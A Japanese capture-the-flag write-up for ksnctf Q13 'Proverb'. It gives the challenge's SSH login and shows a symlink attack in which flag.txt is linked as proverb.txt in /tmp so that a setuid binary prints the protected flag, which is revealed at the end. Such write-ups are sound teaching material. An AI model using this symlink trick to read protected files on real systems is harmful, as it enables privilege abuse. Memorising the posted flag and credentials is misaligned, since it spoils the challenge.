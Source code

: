 Q13.Proverb 70pt
----------------

問題
----
> SSH: ctfq.sweetduet.info:10022
> ID: q13
> Pass: 8zvWx00MakSCQuGq

解き方
-----

まずはsshで接続してproverbを実行してみます。

```bash
$ ssh q13@ctfq.sweetduet.info -p 10022
Last login: Fri Dec 27 23:02:31 2019 from 10.0.2.2

[q13@localhost ~]$ ls -la
total 48
drwxr-xr-x   2 root root  4096 Jun  1  2012 .
drwxr-xr-x. 17 root root  4096 Oct  6  2014 ..
-rw-r--r--   1 root root    18 May 11  2012 .bash_logout
-rw-r--r--   1 root root   176 May 11  2012 .bash_profile
-rw-r--r--   1 root root   124 May 11  2012 .bashrc
-r--------   8 q13a q13a    22 Jun  1  2012 flag.txt
---s--x--x   4 q13a q13a 14439 Jun  1  2012 proverb
-r--r--r--   2 root root   755 Jun  1  2012 proverb.txt
-r--r--r--   1 root root   151 Jun  1  2012 readme.txt

[q13@localhost ~]$ cat proverb.txt 
All's well that ends well.
A good beginning makes a good ending.
Many a true word is spoken in jest.
Fear is often greater than the danger.
Go for broke!
Fire is a good servant but a bad master.
The wolf knows what the ill beast thinks.
There is always a next time.
Spare the rod and spoil the child.
The calm before the storm.
The die is cast.
Take heed of the snake in the grass.
Confidence is a plant of slow growth.
Love is blind.
The sky's the limit...
Truth lies at the bottom of a well.
Blood is thicker than water.
Ignorance is bliss.
There's no way out.
Full of courtesy, full of craft.
Heaven helps those who help themselves.
Bad luck often brings good luck.
Misfortunes never come singly.
Nothing ventured, nothing gained.
Eternal Immortality.

[q13@localhost ~]$ ./proverb 
Fear is often greater than the danger.
[q13@localhost ~]$ ./proverb 
The wolf knows what the ill beast thinks.
[q13@localhost ~]$ ./proverb 
Blood is thicker than water.
```

proverb.txtから読み取って出力するプログラムのようです。

今回は読み取り権限がないのでobjdumpは使えません。

自由度が低いので/tmpディレクトリに移動して色々試します。

```bash
[q13@localhost ~]$ cd /tmp/
[q13@localhost /tmp]$ mkdir tmp && cd tmp # /tmp/tmpを作成して移動しました(使用済みなら別名で)。

[q13@localhost tmp]$ cp ~/proverb . # 読み取り権限がないので当然cpはできません
cp: cannot open '/home/q13/proverb' for reading: Permission denied

[q13@localhost tmp]$ ln -snf ~/proverb proverb # しかしsymlinkは貼れます

[q13@localhost tmp]$ ls -la
total 8
drwxrwxr-x   2 q13  q13  4096 Dec 28 10:20 .
drwxrwx-wt. 12 root root 4096 Dec 28 10:06 ..
lrwxrwxrwx   1 q13  q13    17 Dec 28 10:20 proverb -> /home/q13/proverb

[q13@localhost tmp]$ ./proverb
Floating point exception
```

実行するとポインタに関する例外が発生しました。読み取るべきファイルが見つからなかったのでしょうか

分かったことをまとめると次のようになります。
 - symlinkは貼れる
 - proverbはおそらく実行時の同一ディレクトリのproverb.txtを参照している

proverb.txtという名前でflag.txtのsymlinkを貼れば良いです。

```bash
[q13@localhost tmp]$ ln -snf ~/flag.txt proverb.txt
[q13@localhost tmp]$ ./proverb 
FLAG_XoK9PzskYedj/T&B
```

シンボリックリンク攻撃だったようです。

FLAG
-----
`FLAG_XoK9PzskYedj/T&B`

